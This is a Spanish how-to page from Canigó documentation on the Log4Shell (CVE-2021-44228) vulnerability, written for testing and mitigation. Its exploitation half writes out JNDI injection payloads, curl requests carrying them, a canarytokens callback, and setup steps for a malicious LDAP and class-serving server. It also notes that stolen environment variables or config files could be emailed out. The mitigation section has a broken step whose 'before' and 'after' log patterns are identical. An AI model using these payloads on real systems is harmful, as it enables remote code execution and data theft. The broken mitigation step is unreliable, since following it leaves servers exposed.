 +++
date        = "2021-12-13"
title       = "Canigó. Vulnerabilidad: CVE-2021-44228 (log4jshell)"
description = "Como correguir la vulnerabilidad CVE-2021-44228 (log4jshell)"
section     = "howtos"
categories  = ["canigo"]
key         = "GENER2022"
+++

Esta vulnerabilidad permite ejecutar código en un servidor remoto, inyectando una petición JNDI `${jndi:(ldap|rmi|etc)}` dentro cualquier variable que se registre en el log del servidor. Para explotar la vulnerabilidad, se siguen estos pasos:

1. En el servidor que aloja la aplicación vulnerable, se registra la información que contiene la carga útil maliciosa, por ejemplo: `${jndi:ldap://[servidor]/[carga útil]}`, donde el servidor está controlado por el atacante y la carga útil contiene el comando a ejecutar.
2. La vulnerabilidad se activa y el servidor vulnerable, solicita al servidor del atacante a través de JNDI el código malicioso.
3. La respuesta del servidor del atacante contiene la ruta a una clase Java maliciosa, por ejemplo: `http://[servidor]/exploit.class`, que se inyecta en el contexto de la aplicación vulnerable.
4. La carga útil inyectada permite al atacante ejecutar código arbitrario.

> fuentes: \
> <https://github.com/YfryTchsGD/Log4jAttackSurface> \
> <https://github.com/christophetd/log4shell-vulnerable-app> \
> <https://www.tarlogic.com/blog/log4shell-vulnerability-cve-2021-44228/> \
> <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/> \
> <https://www.randori.com/blog/cve-2021-44228/>

## Como explotar la vulnerabilidad en Canigó

1. Crear una aplicación con el archetype de Canigó por ejemplo: `CanigoLog4jShellTest`

  ```sh
  # Canigó 3.6
  mvn archetype:generate \ 
  -DarchetypeGroupId=cat.gencat.ctti \
  -DarchetypeArtifactId=plugin-canigo-archetype-rest \
  -DarchetypeVersion=1.7.0 \
  -DartifactId=CanigoLog4jShellTest \
  -DgroupId=cat.gencat.ctti \
  -Dversion=1.0.0 -B
  ```

2. Modificar el servicio de pruebas: `EquipamentServiceController` para imprimir en el log, los parámetros de entrada del servicio de creación de equipaments

  ```java
  import org.apache.logging.log4j.LogManager;
  import org.apache.logging.log4j.Logger;
  
  private static Logger log = LogManager.getLogger(EquipamentServiceController.class.getName());

  public void saveEquipament(@RequestBody Equipament equipament) {
    log.error("equipament.getNom() {}", equipament.getNom());
    ...
  }
  ```

3. Iniciar el proyecto creado con el servidor tomcat embebido, por ejemplo:

  ```sh
  mvn clean spring-boot:run

  # or

  mvn clean package && java -jar ./target/CanigoLog4jShellTest.war

  # or

  mvn clean package docker:build \
    && docker run -it --rm \
    --net=host \
    --name="log4jshell-local" \
    --memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
    canigo/app
  ```

### Utilizando el proyecto `canarytokens`

> El proyecto de código abierto: `canarytokens` permite generar tokens para explotar vulnerabilidades. \
> Sí al utilizar un token se explota una vulnerabilidad, se envía un correo electrónico con los detalles del acceso \
> <https://docs.canarytokens.org/guide/> \
> <https://github.com/thinkst/canarytokens> \

4. Generar un token tipo `log4jshell` desde: <https://canarytokens.org/generate#>, por ejemplo:

  ```txt
  ${jndi:ldap://127.0.0.1.xxxxxxxxxxxx.canarytokens.com/a}
  ```

5. Generar una peticion HTTP Request para crear un `equipament` y en el nombre enviar el token malicioso creado con `canarytokens`

  ```sh
  curl --request POST 'http://127.0.0.1:8080/api/equipaments' \
    --header 'Content-Type: application/json' \
    --data-raw '{ "nom": "${jndi:ldap://127.0.0.1.xxxxxxxxxxxx.canarytokens.com/a}","municipi": "Barcelona"}'
  ```

6. Verificar en el buzón del correo configurado en `canarytokens` y comprobar el correo con la traza de la conexión remota al servidor de la aplicación

  ![Email exploit test](/images/howtos/log4jshell/email_exploit_alert.png)

  ![Canary tokens exploit details 1](/images/howtos/log4jshell/canary_token_exploit_details1.png)

  ![Canary tokens exploit details 2](/images/howtos/log4jshell/canary_token_exploit_details2.png)

### Utilizando un servidor LDAP

> Se requiere: SO Linux, Python3, git, maven, acceso a internet

4. Iniciar un servidor web que contenga el código malicioso a inyectar

  > Se puede utilizar el proyecto `https://github.com/cybereason/Logout4Shell.git` y modificar la clase `Log4jRCE.java` para agregar cualquier código malicioso que se quiera inyectar en un servidor

  ```sh
  git clone https://github.com/cybereason/Logout4Shell.git
  mvn clean package
  cd target/classes
  python3 -m http.server 8888
  ```

5. Iniciar un servidor LDAP

  > Se puede utilizar el proyecto `https://github.com/mbechler/marshalsec.git`
  #### Por ejemplo se puede agregar este código para inyectar en el servidor vulnerable una traza

  ```java
    String dateNow = ZonedDateTime.now(ZoneId.of("Europe/Madrid")).format(DateTimeFormatter.ofPattern("yyyy-MM-dd'T'HH:mm:ss.SSSZ"));
    System.out.println("Log4JShell - JPJE ----------------------------: " + dateNow);
  ```   

  ```sh
  git clone https://github.com/mbechler/marshalsec.git
  mvn clean package -DskipTests
  java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8888/#Log4jRCE"
  ```

6. Generar una peticion HTTP Request para crear un `equipament` y en el nombre enviar el token malicioso creado con `canarytokens`

  ```sh
  curl --request POST 'http://127.0.0.1:8080/api/equipaments' \
    --header 'Content-Type: application/json' \
    --data-raw '{ "nom": "${jndi:ldap://127.0.0.1:1389/a}","municipi": "Barcelona"}'
  ```

7. Revisar en el log de la aplicación `CanigoLog4jShellTest` los efectos de explotar la vulnerabilidad

  > Con la vulnerabilidad

  ![LDAP exploit](/images/howtos/log4jshell/log4jshell_trace1.gif)

  > Sin la vulnerabilidad

  ![LDAP no exploit](/images/howtos/log4jshell/log4jshell_trace2.gif)

  > Se puede apreciar en el log de `CanigoLog4jShellTest` la traza generada por el código inyectado. Se podria obtener por ejemplo, todas las variables de entorno, o los archivos de configuración y enviarlos por correo

## Como solventar/mitigar la vulnerabilidad

---

1. Sustituir la version de la dependencia de la librería `log4j` (tiempo de compilación). Por ejemplo:

   1.1 modificando el: `pom.xml` (Opción recomendada) (requiere recompilar y desplegar)

  ```xml
  <properties>
    <log4j2.version>2.15.0</log4j2.version>
  </properties>
  ```

  1.2 inyectando la variable durante la construcción de la aplicación (requiere recompilar y redesplegar)

  ```sh
  mvn -Dlog4j2.version=2.15.0 clean package && java -jar ./target/CanigoLog4jShellTest.war
  ```

2. Configurar la variable: `log4j2.formatMsgNoLookups (tiempo de ejecución)

  2.1 inyectando la variable (sirve para: 2.10 >= log4j >= 2.14.1) (requiere redesplegar)

  ```sh
  mvn clean package && java -Dlog4j2.formatMsgNoLookups=true -jar ./target/CanigoLog4jShellTest.war
  ```

  2.2 agregando una variable de entorno (sirve para: 2.10 >= log4j >= 2.14.1) (requiere redesplegar)

  > fuente: https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/

  ```sh
  mvn clean package docker:build \
    && docker run -it --rm \
    --net=host \
    --name="log4jshell-local" \
    --memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
    --env LOG4J_FORMAT_MSG_NO_LOOKUPS=true \
    canigo/app
  ```

3. Modificar el patron de trazas configuradas en el archivo: `log4j.xml` (sirve para: 2.0-beta1 >= log4j >= 2.14.1) (requiere recompilar y redesplegar), por ejemplo:

  > fuente: https://kb.vmware.com/s/article/87093

  ```sh
  ## cambiar:
  <PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />

  ## por:
  <PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />
  ```

4. Eliminar la clase `maliciosa` (sirve para: 2.0-beta1 >= log4j >= 2.14.1) (requiere recompilar y redesplegar), por ejemplo:

  ```sh
  zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
  ```
